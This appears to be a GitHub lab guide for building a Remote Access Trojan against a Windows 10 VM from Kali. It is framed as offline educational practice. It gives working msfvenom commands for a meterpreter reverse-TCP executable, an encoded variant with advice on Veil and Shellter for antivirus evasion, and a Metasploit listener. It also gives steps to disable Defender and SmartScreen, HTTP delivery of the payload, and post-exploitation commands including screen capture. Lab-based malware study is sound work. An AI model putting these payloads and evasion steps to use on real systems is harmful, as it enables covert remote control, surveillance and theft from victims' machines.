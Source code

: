 # 🏗 Remote Access Trojan (RAT) Analysis Lab Guide

**Author:** Ayoub Faddil
**Purpose:** Educational practice on understanding RAT behavior in a controlled, offline lab environment.

---

## 🖥 1️⃣ Virtual Machine Setup

✅ **Attacker VM** → Kali Linux (latest version)
✅ **Victim VM** → Windows 10 (clean install, no personal data)

* Download and install **VirtualBox** or **VMware**.
* Set up both VMs.
* Configure **internal network only** (no internet):

  * VirtualBox → VM Settings → Network → Internal Network.

    ![RAT Lab Screenshot](RAT_images/RAT1.png)

  * Set static IPs:

    * On Windows: Go to `Network & Sharing Center → Adapter settings → IPv4 → Set static IP (e.g., 192.168.1.20, mask 255.255.255.0)`.

      ![RAT Lab Screenshot](RAT_images/RAT2win.png)

    * On Kali:

      ```bash
      sudo ip addr add 192.168.1.10/24 dev eth0
      sudo ip link set eth0 up
      ```

      ![RAT Lab Screenshot](RAT_images/RAT3lin.png)

---

## 🛠 2️⃣ Prepare Tools

**On Kali (attacker):**

* Update system:

  ```bash
  sudo apt update && sudo apt upgrade
  ```
* Use **Metasploit Framework** (preinstalled on Kali):

  ```bash
  msfconsole
  ```

**On Windows (victim):**

* Download Sysinternals tools:

  * **Process Explorer** → monitor processes.
  * **Autoruns** → check startup persistence.
* Install **Wireshark** → capture network traffic.

---

## ⚙ 3️⃣ Generate RAT Payload (Basic)

On Kali, run:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -f exe -o rat_test.exe
```

* Replace `<Kali_IP>` with Kali’s internal network IP (`ifconfig`).
* This creates `rat_test.exe`.
  ![RAT Lab Screenshot](RAT_images/RAT4lin.png)

⚠ **Note:** This payload is basic and may be detected by Windows Defender or antivirus.

---

## 🚀 4️⃣ Advanced (Bypass AV) Payload Option

For more stealth, try an **encoded payload** or using an external tool like **Veil** or **Shellter**.

### 🔥 Example: msfvenom with encoding

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o rat_encoded.exe
```

✅ `-e x86/shikata_ga_nai`: encoder to obfuscate payload
✅ `-i 10`: encode 10 iterations (higher = more obfuscation)

👉 May bypass basic AV, but modern Windows Defender will still detect in most cases.

For better evasion:

* Use **Veil-Framework**:

  ```bash
  sudo apt install veil
  veil
  ```

  Then generate a payload from its interface.

OR

* Use **Shellter** (needs Wine):

  ```bash
  sudo apt install wine
  wine shellter.exe
  ```

---

## 🚀 5️⃣ Set Up Listener

In Metasploit:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Kali_IP>
set LPORT 4444
run
```

This will wait for the victim to connect.
![RAT Lab Screenshot](RAT_images/RAT5.png)
![RAT Lab Screenshot](RAT_images/RAT6.png)

---

## 🐁 6️⃣ Simulate Infection

* Transfer `rat_encoded.exe` (or `rat_test.exe`) to the Windows VM (via shared folder or virtual USB).

* OR Python HTTP server on Kali:
         Steps to Fully Disable Protection on Windows 10 (Offline Lab)

  1. **Disable SmartScreen (Windows Security UI):**

     * Go to `Windows Security → App & Browser Control`.
     * Under **Check apps and files**, set to **Off**.
     * Under **SmartScreen for Microsoft Edge**, set to **Off**.
     * Under **SmartScreen for Microsoft Store apps**, set to **Off**.

  2. **Disable Real-time protection (again if it re-enabled):**

     * `Windows Security → Virus & threat protection`.
     * Turn off **Real-time protection**, **Cloud-delivered protection**, and **Automatic sample submission**.

  3. **Verify Defender is OFF (PowerShell):**
     Run:

     ```
     Get-MpPreference
     ```

     Make sure these are set:

     ```
     DisableRealtimeMonitoring : True
     SubmitSamplesConsent     : 2
     MAPSReporting            : 0

     ```

  4. **Deliver via Python HTTP server:**
     On Kali:

     ```
     python3 -m http.server 8000
     ```

     Then on Windows (in browser or PowerShell):

     ```
     Invoke-WebRequest -Uri http://<Kali_IP>:8000/rat_encoded.exe -OutFile C:\Users\Public\rat_encoded.ex
     ```

     ![RAT Lab Screenshot](RAT_images/RAT7.png)

* **Run the file** on Windows (safe offline lab only).

⚠ Disable Windows Defender temporarily if testing without evasion.

---

## 🔍 7️⃣ Observe and Analyze

**On Windows:**
✅ Open **Process Explorer** → find the new process.
✅ Run `netstat -ano` → check active connections.
✅ Use **Wireshark** → monitor the callback traffic.
✅ Check **Autoruns** → see if persistence is added.

**On Kali:**
✅ Use Meterpreter:

```bash
sessions -i 1
```

✅ Run commands:

* `sysinfo` → system info.
* `getuid` → current user.
* `screenshot` → capture screen (inside lab only).
  ![RAT Lab Screenshot](RAT_images/RAT8.png)

  ![RAT Lab Screenshot](RAT_images/RAT9.png)

---